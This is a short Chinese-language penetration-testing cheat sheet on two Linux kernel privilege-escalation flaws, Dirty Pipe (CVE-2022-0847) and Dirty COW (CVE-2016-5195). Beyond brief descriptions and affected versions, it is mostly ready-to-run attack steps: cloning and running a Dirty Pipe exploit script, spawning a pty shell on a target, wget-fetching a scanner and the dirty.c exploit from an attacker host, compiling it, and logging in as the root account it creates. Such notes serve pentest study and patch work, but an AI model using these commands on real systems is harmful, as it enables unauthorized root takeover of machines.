

# 内核漏洞-备忘录

## CVE-2022-0847

* 漏洞说明
  * CVE-2022-0847-DirtyPipe-Exploit CVE-2022-0847 是存在于 Linux内核 5.8 及之后版本中的本地提权漏洞。攻击者通过利用此漏洞，可覆盖重写任意可读文件中的数据，从而可将普通权限的用户提升到特权 root。 CVE-2022-0847 的漏洞原理类似于 CVE-2016-5195 脏牛漏洞（Dirty Cow），但它更容易被利用。漏洞作者将此漏洞命名为“Dirty Pipe”
* 影响范围
  * 5.8 <= Linux 内核版本 < 5.16.11 / 5.15.25 / 5.10.102
* 工具地址：https://github.com/imfiver/CVE-2022-0847
*   使用方法

    ```bash
    git clone https://github.com/imfiver/CVE-2022-0847.git
    cd CVE-2022-0847
    chmod +x Dirty-Pipe.sh
    bash Dirty-Pipe.sh
    ```

    

## CVE-2016-5195-脏牛(Dirty COW)提权

* 漏洞说明
  * Linux内核的内存子系统在处理写入复制（copy-on-write, COW）时产生了竞争条件（race condition）。恶意用户可利用此漏洞，来获取高权限，对只读内存映射进行写访问。竞争条件，指的是任务执行顺序异常，可导致应用崩溃，或令攻击者有机可乘，进一步执行其他代码。利用这一漏洞，攻击者可在其目标系统提升权限，甚至可能获得root权限。
* 影响版本
  * Linux内核>=2.6.22
* 扫描是否存在脏牛漏洞脚本scan-dirtycow.sh
  * https://github.com/aishee/scan-dirtycow/blob/master/dirtycowscan.sh

```bash
python -m SimpleHTTPServer # kali

# 目标
python -c "import pty;pty.spawn('/bin/bash')"
cd /tmp
wget http://10.30.0.81:8080/dirtycowscan.sh
chmod +x dirtycowscan.sh
./dirtycowscan.sh
```

```
exp：dirty.c
- https://www.exploit-db.com/raw/40839

wget http://10.30.0.81:8080/dirty.c
chmod 777 dirty.c
gcc -pthread dirty.c -o dirty -lcrypt
./dirty testpasswd
su firefart
testpasswd
```
